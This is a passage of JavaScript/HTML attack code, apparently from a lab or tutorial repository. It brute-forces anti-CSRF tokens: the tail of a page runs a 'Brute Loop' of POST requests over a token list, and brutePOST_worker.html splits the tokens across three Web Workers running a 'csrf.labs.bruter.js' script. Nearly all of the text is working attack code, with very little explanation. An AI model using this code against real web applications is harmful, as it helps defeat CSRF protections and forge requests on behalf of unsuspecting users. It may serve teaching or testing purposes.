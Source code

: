 ```js
                  http.abort();
               }
            };

            // Serialize the data without using JQuery
            queryParams = Object.keys(params).reduce(function (a, k) {
               a.push(k + '=' + encodeURIComponent(params[k]));
               return a
            }, []).join('&');
            http.send(queryParams);
         }

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean); // Remove empty lines

         // Brute Loop
         bruteLoop(tokens);
      </script>
   </body>
</html>


```

#### brutePOST\_worker.html

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         00411460f7c92d2124a67ea0f4cb5f85
      </textarea>
      <br>
      <h1>Workers results</h1>
      <span id="workers"></span>

      <script>
         function startBlock(worker, tokens) {
            worker.postMessage({
               'tokens': tokens
            });
         }

         var bruterPath = "csrf.labs.bruter.js";

         var ww1 = new Worker(bruterPath);
         ww1.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww1</b> says: " + e.data + "<br>";
         }, false);

         var ww2 = new Worker(bruterPath);
         ww2.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww2</b> says: " + e.data + "<br>";
         }, false);

         var ww3 = new Worker(bruterPath);
         ww3.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww3</b> says: " + e.data + "<br>";
         }, false);

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean);

```